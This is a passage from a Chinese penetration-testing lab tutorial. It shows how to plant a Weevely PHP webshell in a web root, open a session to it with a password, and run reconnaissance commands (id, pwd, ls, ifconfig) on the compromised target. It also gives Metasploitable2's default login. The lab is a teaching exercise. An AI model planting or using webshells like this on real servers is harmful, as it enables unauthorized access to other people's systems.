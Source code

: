 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481011073001.png-wm)

实验楼的 Ubuntu 14.04 环境下，浏览器地址栏中输入`127.0.0.1`，默认开启的是 `nginx` 服务。所以我们应该先关掉 `nginx` 服务，开启 `apache` 服务，提供 PHP 运行环境，用以测试 PHP 木马：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993507282.png-wm)

```
# 关闭 nginx 服务命令
sudo service nginx stop

# 开启 apache2 服务，提供 PHP 运行环境
sudo service apache2 start
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993732499.png-wm)


接着使用复制命令，将 PHP 木马文件，复制到网站的根目录下：

```
# 复制木马文件到网站根目录下
sudo cp /tmp/hello.php /var/www/html/
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480994046645.png-wm)

### 4.4 通过 weevely 创建会话

当木马文件，上传到网站的根目录后，Weevely 创建会话的准备工作已经完成。接着我们将使用 Weevely 创建会话，在 Kali 终端中，使用 weevely 命令，输入目标主机木马地址和会话的密码**`注意：`不要忘记会话通道密码，密码在生成的时候是自定义的**：

```
# 如果是使用 Metasploitable2 作为目标靶机。则步骤一样，改掉相应的 IP 地址。Metasploitable2 账号密码为：msfadmin/msfadmin
# 命令格式如下，url 为木马地址， password 为生成木马的密码
# weevely <url> <password>
weevely http://192.168.122.1/hello.php hello
```

在这里要稍等一会，成功后如下所示：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481011627631.png-wm)

### 4.5 查看系统信息

由上图可知，使用 Weevely 创建会话成功，攻击者已经成功渗透入了目标靶机。输入如下命令，可以验证当前用户，以及当前的路径，路径下的文件名和目标靶机信息：

```
# 查看当前用户 id
id

# 查看当前路径
pwd

# 查看当前路径下的文件
ls

# 查看当前系统的信息
ifconfig
```
